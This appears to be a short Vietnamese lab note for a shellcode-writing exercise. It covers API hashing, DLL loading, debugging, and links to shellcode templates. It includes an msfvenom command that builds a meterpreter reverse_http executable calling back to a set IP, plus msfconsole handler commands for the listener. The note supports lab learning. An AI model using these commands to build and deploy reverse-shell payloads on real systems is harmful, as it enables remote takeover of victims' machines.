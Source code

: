 # Bài 2:
Lưu ý chụp lại các đoạn có IP của máy Debug sau khi đã khai thác thành công để làm minh chứng.
[Các template các hàm](https://github.com/Cl0wnK1n9/ShellcodeTemplate-windowx86/tree/main/Functions)  

Để load DLL thì đổi sang ASCII sang hex (Lưu ý trong code viết bytes theo chiều ngược lại) \
Để load API thì tính hash: \
[Code tính hash tên các API](https://github.com/10u15hack1ng/x86Win-Notes/blob/main/Custom%20Shellcode/getAPIhash.py)

Để sinh payload bằng metasploit:
```
$ msfvenom -p windows/meterpreter/reverse_http HOST=192.168.45.178 LPORT=4343 -f exe -o met.exe
```

Để tạo listener trên máy kali khi thực thi shellcode:
```
# Exploit after met.exe execution
$ msfconsole
msf> use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_http
msf exploit(handler) > set LHOST consulting.example.org
msf exploit(handler) > set LPORT 4443
msf exploit(handler) > set SessionCommunicationTimeout 0
msf exploit(handler) > set ExitOnSession false
msf exploit(handler) > exploit -j
```

Tham khảo cách viết: [Shellcode trong sách](https://github.com/10u15hack1ng/x86Win-Notes/blob/main/Custom%20Shellcode/shellcode_NO_CHANGE_PLEASE.)  

Trong quá trình debug, có thể dùng lệnh `dds <địa chỉ>` để kiểm tra các hàm đã được lưu đúng chưa.  
Nếu các hàm đã được lưu đúng thì sẽ hiện tên hàm ở trong output.
